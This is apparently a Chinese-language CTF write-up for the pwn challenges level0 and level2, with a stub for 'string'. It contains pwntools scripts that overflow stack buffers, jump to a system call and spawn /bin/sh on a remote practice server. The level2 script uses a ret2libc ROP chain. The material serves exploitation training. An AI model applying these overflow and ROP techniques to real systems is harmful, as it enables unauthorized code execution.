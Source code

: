 注意rip后不要再跟多余的padding，否则等callsystem函数返回之后会报错。

```python
from pwn import *
context.log_level = "debug"
# p = process("./level0")
p = remote("111.198.29.45", 31457)
payload = "a" * 0x88 + p64(0x400596)
p.recvuntil("Hello, World\n")
p.send(payload)

p.interactive()
```

## level2 ##

根据提示可知该题是用ROP，即ret2libc。由于没有开启pie和canary，程序也直接调用了system函数，所以很简单，不需要leak libc基地址。用IDA可以找到/bin/sh字符串，然后用栈传参即可。

```
.data:0804A024 hint            db '/bin/sh',0
```

注意调整栈平衡

```python
from pwn import *
context.log_level = "debug"
elf = ELF("./level2")
# p = process("./level2")
p = remote("111.198.29.45", 31463)
p.recvuntil("Input:\n")
offset = 0x88 + 4
rop = offset * "a"
rop += p32(elf.plt['system'])
rop += "aaaa"
rop += p32(0x804a024)
p.send(rop)

p.interactive()

```

## string ##

该题开启了canary和nx。

```
liwc@ubuntu:~/pwn/adworld/string$ checksec string 
[*] '/home/liwc/pwn/adworld/string/string'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


```
